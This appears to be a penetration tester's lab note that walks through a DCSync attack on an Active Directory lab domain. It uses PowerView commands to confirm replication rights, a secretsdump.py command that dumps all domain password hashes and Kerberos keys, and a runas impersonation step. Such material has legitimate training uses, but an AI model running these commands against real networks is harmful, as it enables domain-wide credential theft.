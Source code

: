 -- -
Can be used after you get domain admin or if you get a user with these privs. This attack is used to sync AD so you should get all users and their saved hashes from the DC. First, verify your user can do this
#### Get User SID
```powershell
Get-DomainUser -Identity <user> | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```
#### Check User's Replication Rights
```powershell
# Set SID
$sid= "<user sid>"
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

# Get replication rights
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
#### Perform DSync Attack
**From linux**
```bash
secretsdump.py -outputfile inlanefright_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
Note: The above command will output multiple files:
1. The user hases in `.ntds`
2. Cleartext passwords if user had reversible encryption set in `.ntds.cleartext` 
3. Kerberos keys in `.ntds.kerberos`
**From Windows**
Make sure you run this from the perspective of the user with Sync privileges, if you need to force this:
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Then run attack:
![[Dark Arts/Tools/mimikatz#^21193e]]

